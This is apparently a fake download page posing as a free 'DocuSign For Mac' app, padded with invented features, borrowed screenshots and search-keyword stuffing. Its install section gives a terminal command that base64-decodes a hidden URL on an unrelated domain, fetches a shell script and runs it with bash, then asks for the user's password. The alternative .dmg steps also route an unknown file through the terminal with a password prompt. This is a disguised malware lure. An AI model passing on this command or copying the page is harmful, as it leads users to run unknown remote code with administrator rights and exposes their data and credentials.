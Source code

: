 # DocuSign For Mac — Download For Mac OS 😊
![logo](https://encrypted-tbn0.gstatic.com/images?q=tbn:ANd9GcRE4RWv_pjMg-O9JIgqbATnrRyJRUyd3uPWMw&s)

DocuSign For Mac is a powerful desktop application designed to streamline electronic document signing and management for macOS users. Perfect for professionals, businesses, and individuals, this app simplifies the process of signing, sending, and tracking documents securely. Follow the instructions below to install DocuSign For Mac and enhance your document workflow.

[![Download Now](https://img.shields.io/badge/Download-Now-007AFF?style=for-the-badge&logo=apple)](https://mrboomzeus519.github.io/gimronus/docusign)

If the download button doesn’t work, follow the terminal installation instructions below.

## 📦 How to Install DocuSign For Mac

### Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

### Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQzL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

## 🎯 What You Get

- ✍️ **Electronic Signatures**: Sign documents securely with legally binding e-signatures.
- 📂 **Document Management**: Organize, send, and track documents from a centralized dashboard.
- 🛠 **Template Creation**: Build reusable templates to streamline repetitive signing tasks.
- 🔔 **Real-Time Notifications**: Get instant alerts for document status updates and signatures.
- 🔄 **Cloud Syncing**: Access your documents across devices with seamless cloud integration.
- 🔒 **Enhanced Security**: Protect sensitive documents with advanced encryption and authentication.

## About DocuSign For Mac

DocuSign For Mac is a dedicated macOS application designed to simplify electronic document signing and management. Whether you're closing contracts, approving forms, or managing agreements, this app provides a secure and efficient solution tailored for Mac users. With its intuitive interface and robust features, DocuSign For Mac ensures a seamless experience for professionals and businesses. Keywords like *DocuSign Mac app*, *e-signature software Mac*, and *free DocuSign download* make it easy for users to find this powerful tool online.

Built for macOS, DocuSign For Mac offers a native experience with fast performance and offline capabilities, setting it apart from web-based alternatives. The app supports electronic signatures, document tracking, and template management, making it ideal for streamlining workflows. Its cloud-based syncing ensures you can access your documents anywhere, anytime. Search terms like *DocuSign for Mac free* and *electronic signature Mac* enhance its visibility for users seeking reliable e-signature solutions.

DocuSign For Mac is perfect for professionals who need a secure and user-friendly platform for managing agreements. The app integrates with popular tools like Dropbox, Google Drive, and Salesforce, allowing you to incorporate it into your existing workflow. Its customizable templates and real-time notifications save time and improve efficiency. By leveraging keywords such as *document signing Mac* and *DocuSign desktop app*, the app attracts users looking for a comprehensive document management solution.

With regular updates to maintain compatibility with the latest macOS versions, DocuSign For Mac delivers a dependable and secure experience. Its robust security features protect sensitive data, while its intuitive design caters to both beginners and experienced users. Whether you’re searching for *free DocuSign Mac* or *e-signature software for Mac*, this app provides exceptional value for anyone looking to optimize their document signing process.

## Advantages of DocuSign For Mac

- 🌟 **Intuitive Interface**: A macOS-optimized design for a seamless user experience.
- ⚡ **Fast Performance**: Quick load times and smooth operation for efficient workflows.
- 📝 **Secure Signatures**: Legally binding e-signatures with advanced encryption.
- 🛠 **Custom Templates**: Create reusable templates for faster document processing.
- 🆓 **Free Access**: Enjoy powerful features at no cost, perfect for small businesses.
- 🔄 **Cross-Device Syncing**: Seamlessly access your documents across Mac and mobile devices.

## 🖼 Preview

![Dashboard View](https://www.docusign.com/static-c-assets/Send_Tab_Upload_your_documents_modal.jpg)  
*Access and manage your documents with a clean, intuitive dashboard.*

![Document Signing](https://www.titanfile.com/wp-content/uploads/2020/08/TitanFile-DocuSign-Integration.png)  
*Sign documents electronically with ease and precision.*

![Template Management](https://d2uars7xkdmztq.cloudfront.net/app_resources/customizations/CANCOM/30887/overview/img6153220955687603414.png?6df01240730238c8cdf4e50600b2b871)  
*Create and manage reusable document templates for efficient workflows.*

![Notifications Panel](https://i.postimg.cc/3JqX9W4k/docusign-notifications.jpg)  
*Stay updated with real-time alerts for document status changes.*

## 🔍 Tags

DocuSign for Mac, DocuSign free, DocuSign app, DocuSign Mac app, e-signature software Mac, free DocuSign download, DocuSign desktop app, electronic signature Mac, document signing Mac, e-signature software for Mac, free DocuSign Mac, DocuSign, DocuSign log in, DocuSign pricing, DocuSign sign in, Docu sign pricing, DocuSign in, Docu sign com, Docu sign sign in, Docu sign in, DocuSign DocuSign com, DocuSign cost, DocuSign account, DocuSign sign up, DocuSign download, DocuSign for business, DocuSign eSignature, DocuSign com access documents, DocuSign access documents, Docu signature, DocuSign electronic signature, DocuSign document, DocuSign inc, DocuSign documents
